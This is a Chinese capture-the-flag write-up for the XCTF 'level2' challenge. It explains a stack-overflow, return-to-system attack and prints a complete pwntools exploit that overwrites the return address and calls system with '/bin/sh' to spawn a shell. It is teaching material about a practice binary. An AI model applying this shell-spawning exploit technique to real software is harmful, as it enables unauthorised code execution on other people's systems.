


# 攻防世界: level2

## **[目标]**
stack overflow,ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**


- 栈不可执行，但是可以进行溢出。



- 发现字符串 bin/sh 和 system 函数，由此想到我们可以把 vulnerable_function 的返回地址修改成system函数的地址，然后把bin/sh字符串的地址也写入栈中，也就是system函数参数的位置上。构造如下payload：

```
payload = 'a'*0x8c 
payload += p32(sys_addr)   #覆盖返回地址到system函数
payload += p32(0x12345678)　#随意填写system函数调用结束的返回地址
payload += p32(bin_addr)　  #system函数的参数，指向“/bin/sh”
```

完整exp：

```python
from pwn import *

p = process('./level2')
elf = ELF("./level2")

sys_addr = elf.symbols["system"]
bin_addr = elf.search("/bin/sh").next()

payload = 'a'*0x8c
payload += p32(sys_addr)
payload += p32(0x12345678)
payload += p32(bin_addr)

p.recvline()
p.sendline(payload)
p.interactive()
```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)